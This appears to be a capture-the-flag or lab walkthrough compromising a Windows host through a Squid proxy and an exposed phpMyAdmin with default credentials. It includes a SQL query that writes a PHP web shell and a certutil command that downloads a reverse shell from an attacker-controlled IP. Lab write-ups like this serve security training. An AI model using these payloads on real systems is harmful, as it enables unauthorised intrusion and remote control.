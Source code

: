 #windows #squid_proxy

- Nmap shows only port 22 and 3128 is open.
- Squid proxy is running on port 3128.
- We used the spose.py script as found on Hacktricks to check if any port is behind the firewall
```
python spose.py --proxy http://192.168.172.189:3128 --target 192.168.172.189
```
- Port 8080 is open. We set the firefox proxy to manual and put the IP and port details of squid proxy.
- Then browsed the 8080 from browser and also ran dirb with proxy
- dirb result shows phpmyadmin dir.
- Logged into the phpmyadmin with default creds root:[null]
- Now we execute the below sql command on sql query tab of phpmyadmin.
```
select "<?php echo shell_exec($_GET['c']);?>" into OUTFILE 'C:/wamp/www/webshell.php'
```

- Created a revshell and uploaded to the target. then executed the below command to get the revshell.
```
certutil -urlcache -f http://192.168.45.171/revshell.exe C:/wamp/www/revshell.exe
```
- After login we can see that its already root user.